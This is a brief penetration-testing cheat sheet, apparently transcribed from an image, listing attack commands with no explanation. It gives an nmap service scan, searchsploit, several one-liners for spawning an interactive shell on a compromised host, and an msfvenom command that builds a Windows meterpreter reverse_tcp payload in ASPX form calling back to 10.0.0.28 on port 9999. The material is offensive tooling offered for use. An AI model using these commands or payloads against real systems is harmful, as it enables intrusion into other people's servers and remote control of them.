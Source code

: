 * `searchsploit`
* `nmap -sV -sC <host address>`
* Spawning a TTY shell
  * `python -c 'import pty; pty.spawn("/bin/sh")'`
  * `echo os.system('/bin/bash')`
  * `/bin/sh -i`

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.28 LPORT=9999 -f aspx 
```



